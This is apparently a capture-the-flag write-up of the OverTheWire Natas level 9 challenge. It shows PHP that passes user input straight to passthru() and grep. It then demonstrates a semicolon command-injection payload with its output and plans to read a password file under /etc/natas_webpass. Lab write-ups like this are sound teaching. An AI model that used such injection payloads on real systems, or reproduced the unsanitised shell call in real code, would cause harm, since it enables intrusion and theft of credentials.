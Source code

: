 ~~~~
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
~~~~

We've got access to the shell. `passthru()` is used to execute a command, just as we would in the terminal. The command that's being executed is `grep -i $key dictionary.txt`, where $key is our input to the "needle" $_GET parameter. We can escape the `grep` command by using a semicolon, and then feed a command of our own to it. So, for example, we can go to `http://natas9.natas.labs.overthewire.org/?needle=test;ls%20-l;` , which would execute the command `grep -i test; ls -l; dictionary.txt`

Which outputs:

~~~

<div id="content">
<form>
Find words containing: <input name="needle"><input type="submit" name="submit" value="Search"><br><br>
</form>


Output:
<pre>total 464
-rw-r----- 1 natas9 natas9 460878 Dec 15  2016 dictionary.txt
-rw-r----- 1 natas9 natas9   1952 Dec 20  2016 index-source.html
-rw-r----- 1 natas9 natas9   1185 Dec 20  2016 index.php
-rw-r----- 1 natas9 natas9   1165 Dec 15  2016 index.php.tmpl
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>

~~~~

Let's try cat-ing a file, specifically `/etc/natas_webpass/natas10`. Hopefully we can get the password in plaintext to move onto the next round.
